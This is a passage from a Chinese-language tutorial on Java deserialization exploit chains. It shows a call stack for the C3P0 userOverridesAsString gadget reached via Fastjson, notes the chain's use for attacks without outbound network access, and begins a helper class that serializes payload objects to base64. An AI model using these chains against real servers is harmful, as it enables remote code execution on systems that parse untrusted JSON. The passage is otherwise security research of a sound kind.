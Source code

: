 ```java
    }
}
```

同样的，给出调用栈

```java
readObject:431, ObjectInputStream (java.io)
deserializeFromByteArray:144, SerializableUtils (com.mchange.v2.ser)
fromByteArray:123, SerializableUtils (com.mchange.v2.ser)
parseUserOverridesAsString:318, C3P0ImplUtils (com.mchange.v2.c3p0.impl)
vetoableChange:110, WrapperConnectionPoolDataSource$1 (com.mchange.v2.c3p0)
fireVetoableChange:375, VetoableChangeSupport (java.beans)
fireVetoableChange:271, VetoableChangeSupport (java.beans)
setUserOverridesAsString:387, WrapperConnectionPoolDataSourceBase (com.mchange.v2.c3p0.impl)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
setValue:96, FieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:118, DefaultFieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:1061, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:756, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:271, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:267, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseObject:370, DefaultJSONParser (com.alibaba.fastjson.parser)
parseObject:523, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1335, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1301, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:152, JSON (com.alibaba.fastjson)
parse:162, JSON (com.alibaba.fastjson)
parse:131, JSON (com.alibaba.fastjson)
parseObject:223, JSON (com.alibaba.fastjson)
```

#### 小结

这条链子很明显，是配合`Fastjson`、`Jackson`环境下不出网利用的打法

### 用到的工具类

```java
import com.alibaba.fastjson.JSON;
import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import javassist.ClassPool;
import javassist.CtClass;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;

public class Tool {
    private Tool(){}
    public static void run(Object obj, String mode, String type) throws Exception {
        switch (type) {
            case &#34;object&#34; :
                String object = base64Encode(serialize(obj));
                System.out.println(object);
                if (mode.equals(&#34;debug&#34;))
                    deserialize((base64Decode(object)));
                break;
            case &#34;hessian&#34; :
                String hessian = base64Encode(hessianser(obj));
                System.out.println(hessian);
                if (mode.equals(&#34;debug&#34;))
```
